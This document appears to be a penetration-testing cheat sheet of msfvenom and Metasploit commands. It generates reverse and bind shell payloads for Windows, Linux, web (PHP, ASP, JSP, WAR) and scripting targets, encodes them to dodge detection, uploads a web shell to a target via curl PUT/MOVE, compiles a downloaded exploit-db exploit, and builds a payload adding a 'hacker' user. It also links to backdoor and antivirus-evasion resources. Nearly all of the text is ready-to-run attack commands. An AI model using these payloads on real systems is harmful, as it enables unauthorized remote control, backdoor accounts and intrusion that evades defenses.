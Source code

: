 

* * *
## payloads - general
* * *

- List: 
```bash
msfvenom -l payloads
```
- Options:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options
```

* * *
## creating & sending
* * *
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=myIP LPORT=4040 -f aspx > exploit.aspx

curl -X PUT http://targetIP/exploit.txt --data-binary @exploit.aspx
curl -X MOVE -H 'Destination: https://targetIP/exploit.aspx' https://targetIP/exploit.txt

- msfconsole
	- use exploit/multi/handler
	- set lhost myIP
	- set lport 4040
	- run
	
- run multi/recon/local_exploit_suggester
```

* * *
## other
* * *
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=myIP LPORT=4040 -e x86/shikata_ga_nai –f exe –o exploit.exe
```

## uploading exploits using curl
```bash
curl -X PUT http://targetIP/exploit.txt --data-binary @exploit.aspx
curl -X MOVE -H 'Destination: https://targetIP/exploit.aspx' https://targetIP/exploit.txt
 ```

* * *
## using curl to exploit
* * *
```bash
- curl -X POST http://URL/example.php

- curl post request with data:

	- curl -d "data=example1&data2=example2" http://URL/example.cgi

- curl POST to a form:

	- curl -X POST -F "name=user" -F "password=test" http://URL/example.php

- curl POST with a file:

	- curl -X POST -F "image=@/path/example.gif" http://URL/uploadform.cgi

```
* * *
## python http/ftp server
* * *
```python
python -m SimpleHTTPServer 80 [Optional: port]
python -m SimpleHTTPServer 8000
python3 -m http.server 80
python3 -m http.server 8000

python -m pyftpdlib -p 21
python3 -m pyftpdlib -p 21

```

* * *
## Windows exploit builds
* * *
```bash
apt-get update
apt-get install mingw-w64
wget -O 40564.c https://www.exploit-db.com/download/40564
i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
```

* * *
## Windows Payloads
* * *
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	

msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

* * *
## Linux Payloads
* * *
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom: 

msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

* * *
## Web Payloads
* * *
```bash

## PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

## JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

## WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

```

* * *
## Scripting Payloads
* * *
```bash

## Python

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

## Bash

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

## Perl

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


## Creating an Msfvenom Payload with an encoder while removing bad charecters:

msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"

```



* * *
## links
* * *
- https://github.com/hackerhouse-opensource/backdoors
- https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/


* * *
```note
In Linux, and other UNIX-like systems, you have to be root (have superuser privileges) in order to listen to TCP or UDP ports below 1024.
```
